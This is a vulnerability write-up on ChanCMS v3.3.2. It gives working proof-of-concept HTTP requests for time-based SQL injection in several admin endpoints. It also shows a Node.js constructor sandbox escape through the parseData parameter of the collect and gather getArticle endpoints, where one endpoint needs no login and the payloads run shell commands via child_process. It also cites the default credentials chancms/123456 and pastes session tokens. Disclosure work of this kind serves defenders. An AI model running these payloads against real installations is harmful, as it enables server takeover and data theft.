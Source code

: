 ```yaml
---
title: ChanCMSv3.3.2
---
```


*Author：Narcher*	*Date：2025/10/5*	*Category：Vulnerability Discovery*

<!--more-->

> Project Source Code: [ChanCMS: ChanCMS is a high-quality and practical CMS system developed based on Node, Express 5, MySQL, and Vue 3. Lightweight, flexible, stable, high-performance, and easily extensible, it makes development simpler.](https://gitee.com/chancms/ChanCMS)
>
> Project Version: v3.3.2

The following are the four vulnerabilities identified during the audit:

### /cms/article/findField

After downloading the source code, deploy it directly and log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing reveals that the `findField` function in `/cms/article/findField?cid=8` does not validate the input parameters.

<img src="ChanCMSv3.3.2/image-20251005195854334.png" alt="image-20251005195854334" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005195950511.png" alt="image-20251005195950511" style="zoom:50%;" />

By modifying the `cid` parameter, SQL injection can be performed:

<img src="ChanCMSv3.3.2/image-20251005203317104.png" alt="image-20251005203317104" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251005200056475.png" alt="image-20251005200056475" style="zoom:50%;" />

Directly modifying the URL requires adding a token, which is obtained after logging in as **chancms**.
 The contents of `d.txt` are as follows:

```
GET /cms/article/findField?cid=1 HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk2NTgwNTAsImV4cCI6MTc1OTc0NDQ1MH0.TUAhZOpCwbRrLIm47WHbfneK-lomsez0IJT9LwPgqIM; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list
Connection: keep-alive
```

When running locally you can see a WAF is present, but it failed to block the payload:
 `/cms/article/findField?cid=1+AND+(SELECT+1103+FROM+(SELECT(SLEEP(5)))vbUE)`

<img src="ChanCMSv3.3.2/image-20251005200453009.png" alt="image-20251005200453009" style="zoom:50%;" />

The SQL injection is successful.



### /cms/article/update

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `update` function in `/cms/article/update` does not validate the `cid` parameter.

<img src="ChanCMSv3.3.2/image-20251005201715297.png" alt="image-20251005201715297" style="zoom:50%;" />

```
[Vuln: sqldet]
Target           "http://192.168.58.128:3000/cms/article/update"
VulnType         "blind-based/default"
Payload          "(select*from(select+sleep(2)union/**/select+1)a)"
Position         "body"
ParamKey         "id"
ParamValue       "(select*from(select+sleep(2)union/**/select+1)a)"
sleep_time       "2000"
p_time           "11"
n_time           "4013"
stat             "{\"normal\":{\"samples\":[107,112,88,75,58,56],\"avg\":82.66666666666667,\"std_dev\":21.830152440043918,\"sleep_time\":2},\"sleep_0_time\":11,\"quick_check\":{\"samples\":[4013],\"sleep\":2},\"verify\":{\"samples\":[6013,6012,6011],\"sleep\":3}}"
title            "Generic MySQL time based case [number/column]"
type             "time_based"
avg_time         "82"
std_dev          "21"
```

<img src="ChanCMSv3.3.2/image-20251006123321111.png" alt="image-20251006123321111" style="zoom: 33%;" />

 The contents of `d.txt` are as follows:

```
POST /cms/article/update HTTP/1.1
Host: 192.168.58.128:3000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; n=chancms; perms=api.site.query%2Capi.category.list%2Capi:category:add%2Capi:category.edit%2Capi:article:list%2Capi:article.add%2Capi:article:edit%2Capi:slide:list%2Capi:slide:add%2Capi:slide.edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:tag:list%2Capi:tag:add%2Capi:tag:edit%2Capi:collect:list%2Capi:collect:add%2Capi:collect:edit%2Capi:gather:index%2Capi:gather:add%2Capi:gather:eidt%2Capi:model:list%2Capi:model:add%2Capi:model:edit%2Capi:field:list%2Capi:field:add%2Capi:field:edit%2Capi:friendlink:list%2Capi:friendlink:add%2Capi:friendlink:edit%2Capi:message:list%2Capi:message:add%2Capi:message:edit%2Capi:user:list%2Capi:user:add%2Capi:user:edit%2Capi:role:list%2Capi:role:add%2Capi:role:edit%2Capi:menu:list%2Capi:menu:list%2Capi:configtype:list%2Capi:config:list%2Capi:resource:all%2Capi:template:list%2Capi:upload:list; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjE0LCJ1c2VybmFtZSI6ImNoYW5jbXMiLCJmIjoiODUyN2JlNzZiYmVhNTI4ODNkNzkzZjk1MDM1Y2YyZTUiLCJpIjoiMjE4LjE5NC40Mi4xMzYiLCJpYXQiOjE3NTk3MjQ4NDgsImV4cCI6MTc1OTgxMTI0OH0.9PY83sb3PNmXkGHggc0SqMffRmb6gXWc8vobB4GhMzw
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cid=111111
```



### /cms/collect/getArticle

Although the `getArticle` function in `app/modules/cms/controller/collect.js` uses `app/middleware/guard.js` as a WAF to intercept requests, the WAF is incomplete and can be bypassed.

<img src="ChanCMSv3.3.2/image-20251006161304637.png" alt="image-20251006161304637" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006161531724.png" alt="image-20251006161531724" style="zoom:50%;" />

Since this interface lacks permission validation, it can be accessed without logging in, leading to command execution：

<img src="ChanCMSv3.3.2/image-20251008145238157.png" alt="image-20251008145238157" style="zoom:50%;" />

POC:

```
POST /cms/collect/getArticle HTTP/1.1
Host: 192.168.58.128:3000
Content-Length: 301
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
Accept: application/json, text/plain, */*
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.58.128:3000
Referer: http://192.168.58.128:3000/public/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"taskUrl":"http://opinion.people.com.cn/n1/2025/1006/c1003-40577077.html","titleTag":"#newstit","articleTag":".rm_txt_con","parseData":"return (p => p.getBuiltinModule('child_process').spawnSync('whoami', [], {}).output[1].toString())(this.constructor.constructor('return process')())","charset":"1"}
```

<img src="ChanCMSv3.3.2/image-20251008145827345.png" alt="image-20251008145827345" style="zoom:50%;" />

Allows direct command execution.

If the target Node.js is an older version, the following POC can be used:

```
return this.constructor.constructor('return process')().mainModule.require('child_process').execSync('id').toString()
```



### /cms/model/hasUse

Log in to the admin panel at `/public/admin/index.html` using the weak credentials `chancms/123456`.

Code auditing revealed that the `hasUse` function in `/cms/model/hasUse?id=1` does not validate the `id` parameter.

<img src="ChanCMSv3.3.2/image-20251006170206614.png" alt="image-20251006170206614" style="zoom:67%;" />

<img src="ChanCMSv3.3.2/image-20251006200453286.png" alt="image-20251006200453286" style="zoom:50%;" />

<img src="ChanCMSv3.3.2/image-20251006200511107.png" alt="image-20251006200511107" style="zoom:50%;" />

### /cms/gather/getArticle

The `getArticle` function in `app\modules\cms\controller\gather.js` does not perform any validation or protection on the input parameters, which can lead to code injection and subsequently result in remote command execution.

<img src="ChanCMSv3.3.2/image-20251007213400873.png" alt="image-20251007213400873" style="zoom:50%;" />

First, log in to the backend at `/public/admin/index.html` using the weak credentials `chancms/123456`:

<img src="ChanCMSv3.3.2/image-20251008151226420.png" alt="image-20251008151226420" style="zoom:50%;" />

```
GET /cms/gather/getArticle?targetUrl=http%3a//opinion.people.com.cn/n1/2025/1006/c1003-40577077.html&parseData=return+(p+%3d>+p.getBuiltinModule('child_process').spawnSync('whoami',+[],+{}).output[1].toString())(this.constructor.constructor('return+process')()) HTTP/1.1
Host: 192.168.58.128:3000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjEyLCJ1c2VybmFtZSI6ImFkbWluIiwiZiI6Ijg1MjdiZTc2YmJlYTUyODgzZDc5M2Y5NTAzNWNmMmU1IiwiaSI6IjIxOC4xOTQuNDIuMTM2IiwiaWF0IjoxNzU5ODQxNzA5LCJleHAiOjE3NTk5MjgxMDl9.KioeejMLbx4dSdWb9naniiXpfqVwBlgntSXVt4cjDYg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36 Edg/141.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: _f=8527be76bbea52883d793f95035cf2e5; pos={%22ip%22:%22218.194.42.136%22%2C%22country%22:%22%E4%B8%AD%E5%9B%BD%22%2C%22prov%22:%22%E5%9B%9B%E5%B7%9D%22%2C%22city%22:%22%E6%88%90%E9%83%BD%22%2C%22isp%22:%22CERNET%22%2C%22lat%22:30.5723%2C%22lng%22:104.067%2C%22district%22:%22610000%22}; _i=218.194.42.136; t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOjEyLCJ1c2VybmFtZSI6ImFkbWluIiwiZiI6Ijg1MjdiZTc2YmJlYTUyODgzZDc5M2Y5NTAzNWNmMmU1IiwiaSI6IjIxOC4xOTQuNDIuMTM2IiwiaWF0IjoxNzU5ODQxNzA5LCJleHAiOjE3NTk5MjgxMDl9.KioeejMLbx4dSdWb9naniiXpfqVwBlgntSXVt4cjDYg; n=admin; perms=api.site.query%2Capi.category.list%2Capi:article:list%2Capi:slide:list%2Capi:tag:list%2Capi:tag:list%2Capi:collect:list%2Capi:gather:index%2Capi:model:list%2Capi:field:list%2Capi:friendlink:list%2Capi:message:list%2Capi:user:list%2Capi:role:list%2Capi:menu:list%2Capi:menu:list
Connection: keep-alive


```

<img src="ChanCMSv3.3.2/image-20251007214934765.png" alt="image-20251007214934765" style="zoom:50%;" />
